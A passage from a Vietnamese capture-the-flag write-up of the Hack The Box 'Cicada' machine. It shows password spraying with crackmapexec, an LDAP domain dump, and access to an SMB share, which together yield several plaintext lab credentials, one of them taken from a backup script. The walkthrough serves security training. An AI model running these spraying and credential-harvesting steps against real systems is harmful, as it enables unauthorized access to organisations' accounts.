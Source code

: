 ```
┌──(kali㉿kali)-[~/Downloads/HTB_machines]
└─$ crackmapexec smb 10.10.11.35 -u users-cicada.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'              
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\Administrator:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\Guest:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\krbtgt:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\CICADA-DC$:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\john.smoulder:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\sarah.dantelia:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 

```
Vậy có được `michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8`

## ldapdomaindump
Sử dụng `ldapdomaindump` sẽ thu thập và xuất thông tin từ Active Directory, bao gồm danh sách người dùng, nhóm và thuộc tính khác của các đối tượng trong miền
```
┌──(kali㉿kali)-[~/Downloads/HTB_machines]
└─$ ldapdomaindump ldap://cicada.htb -u 'cicada.htb\michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8'
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished
```
Ta có được các file khi dump ra, mở file ở định dạng `.html` để có giao diện dễ nhìn. Đồng thời ta phát hiện thấy password thứ 2 của `david.orelious`

![image](https://hackmd.io/_uploads/BkFn4L2A0.png)

Ở mục [Recon](#smbclient) ở trên, ta có share folder `DEV` chưa có quyền để đọc nên ta sẽ sử dụng credential vừa tìm đươc để xem nó `david.orelious:aRt$Lp#7t*VQ!3`, ta thấy 1 file mới, sau đó đọc file này ta lại được thêm credential thứ 3

```
┌──(kali㉿kali)-[~/Downloads/HTB_machines/cacida]
└─$ smbclient //10.10.11.35/DEV -U david.orelious
Password for [WORKGROUP\david.orelious]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Mar 14 08:31:39 2024
  ..                                  D        0  Thu Mar 14 08:21:29 2024
  Backup_script.ps1                   A      601  Wed Aug 28 13:28:22 2024

smb: \> get Backup_script.ps1 
getting file \Backup_script.ps1 of size 601 as Backup_script.ps1 (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: \> !cat Backup_script.ps1 

$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
```